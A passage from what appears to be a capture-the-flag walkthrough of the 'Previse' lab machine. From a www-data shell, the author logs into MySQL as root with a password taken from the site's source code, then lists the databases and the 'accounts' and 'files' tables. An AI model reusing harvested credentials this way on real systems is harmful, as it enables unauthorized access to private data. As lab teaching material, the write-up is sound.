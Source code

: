 ```

```

That password doesn’t work for any users on the box.

I’ll connect to the DB with `mysql`:

```

www-data@previse:/var/www/html$ mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 28
Server version: 5.7.34-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

```

There are five databases, but only one that’s really interesting:

```

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

```

It has two tables:

```

mysql> use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

```
